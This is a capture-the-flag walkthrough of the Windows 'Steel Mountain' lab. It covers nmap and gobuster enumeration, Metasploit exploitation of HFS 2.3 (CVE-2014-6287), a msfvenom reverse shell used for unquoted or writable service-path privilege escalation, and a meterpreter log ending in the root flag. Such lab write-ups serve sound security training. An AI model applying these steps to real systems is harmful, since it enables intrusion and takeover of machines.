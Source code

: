 ![image](https://user-images.githubusercontent.com/99112106/174289072-abb53ca8-4cc8-4410-9342-491cea2665eb.png)

# Steel Mountain

## 1.Enumeration 

Let's start with a simple nmap scan:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 10:15 CEST
Nmap scan report for 10.10.187.60
Host is up (0.036s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2022-04-08T08:16:53+00:00
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-04-07T08:06:09
|_Not valid after:  2022-10-07T08:06:09
|_ssl-date: 2022-04-08T08:16:58+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:a6:5c:9d:b1:7f (unknown)
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-08T08:16:53
|_  start_date: 2022-04-08T08:06:02
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.45 seconds
```

Okay, we have a bunch of opened ports... We have apache. netbios, smb, RDP (xd) and an HTTP File Server.

* * *
## 2.Exploring the website

Let's see what we encounter:

![image](https://user-images.githubusercontent.com/99112106/174289090-c1945627-5189-46fa-8250-e5a3724ae279.png)

The only interesting thing we found there is an username, "Bill Harper", the employee of the month:

![image](https://user-images.githubusercontent.com/99112106/174289103-1c55076d-3c83-4cac-84c2-775257556848.png)

Gobuster didn't get anything interesting either:

```
gobuster dir -w /usr/share/dirb/wordlists/big.txt -u http://10.10.187.60 -q
/img                  (Status: 301) [Size: 147] [--> http://10.10.187.60/img/]

```

* * *
## 3.Exploring HFS

Our nmap run discovered a HFS (HTTP File Server) running on 8080 port. Let's have a look at it:

![image](https://user-images.githubusercontent.com/99112106/174289118-051b2fe7-f74f-4f27-8e8b-b51328849c52.png)

Nmap gave us the version (2.3) so let's check if there are any known vulnerabilty for this in Metasploit:

![image](https://user-images.githubusercontent.com/99112106/174289132-8f994c18-fa5c-452d-a1dd-e5a26bdf5824.png)

Yes, we have 2 avaiable exploits, nice. Researching around more about possible vulnerabilities I discovered that the HTTP File Server is vulnerable to CVE-2014-6287:

![image](https://user-images.githubusercontent.com/99112106/174289150-a9362773-5cd1-47e6-9845-c92c12aeae11.png)

The vulnerabilty allows the threat actor to execute arbitrary programas via a %00 squence in a search action. So now, let's set up our exploit:

![image](https://user-images.githubusercontent.com/99112106/174289163-740e4e42-b7b1-4af5-b8b5-8f24cf4f4855.png)

And run it!

![image](https://user-images.githubusercontent.com/99112106/174289181-dbec89ee-fc6c-4be9-be6a-2eb8f28c18bc.png)

We have finally managed to have a opened session with meterpreter! Inside Bill's Desktop we can find the first flag:

![image](https://user-images.githubusercontent.com/99112106/174289197-7a7ff68a-563b-499b-a3c0-239831dc3deb.png)
* * *
## 4. Privileges Escalation

In order to continue or way to root, let's upload into our vulnerable machine a Powershell script that will find for possible attack vectors:

![image](https://user-images.githubusercontent.com/99112106/174289233-1954ce75-a182-4a0e-9e21-3494fab94d6f.png)

Upload the powershell module and execute the powershell script:

![image](https://user-images.githubusercontent.com/99112106/174289244-1d91f8d0-0443-4a9f-8877-9221faa71c3e.png)

If we look closely we can see:

![image](https://user-images.githubusercontent.com/99112106/174289255-0520aff8-836c-45ed-aed5-554b1af57f77.png)

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Let's use msfvenom to generate a reverse shell as an Windows executable. We'll use Shikata Ga Nai as encoder:

![image](https://user-images.githubusercontent.com/99112106/174289267-5acd3da2-e2e5-4336-b2a2-e9d682d9b5a1.png)

Now that we have our encoded reverse shell, let's upload it but first, change directory to where the vulnerable service is stored:

![image](https://user-images.githubusercontent.com/99112106/174289287-285e0de2-35c6-4751-9e97-636a88146f43.png)

Now we upload it:

![image](https://user-images.githubusercontent.com/99112106/174289296-0afc044b-58ff-4c81-a4b1-e5e025bfddfd.png)

One we uploaded it, we're going to set up our multi/handler where we'll recieve the root shell:

![image](https://user-images.githubusercontent.com/99112106/174289313-c580dcc6-5269-4de0-bfe8-e14929afbbcc.png)

Back to our previous session, we're going to restart the service:

![image](https://user-images.githubusercontent.com/99112106/174289339-1ce0dd16-09a0-4d86-a980-d2180ce56442.png)

From here you have about 30 seconds to execute all the commands (background the current session, connect to the elevated new session, and get the flag). After this delay, the elevated session is closed, the handler is stopped and you’ll need to kill your session, restart the handler, reconnect to the initial session, get a shell, and restart the service. I had to do it a couple of times before I could complete all the commands and get the flag.

```
^Z
Background channel 6? [y/N]  y
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN   10.8.50.72:4444 -> 10.10.160.32:59836 (10.10.160.32)
  6         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ STEELMOUNTAIN  10.8.50.72:4443 -> 10.10.160.32:59883 (10.10.160.32)

msf5 exploit(multi/handler) > sessions 8
[*] Starting interaction with 8...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > cd c:/users/administrator/desktop
meterpreter > cat root.txt
9af5f314f57607c00fd09803a587db80
meterpreter > 
meterpreter > 
[*] 10.10.160.32 - Meterpreter session 8 closed.  Reason: Died
```
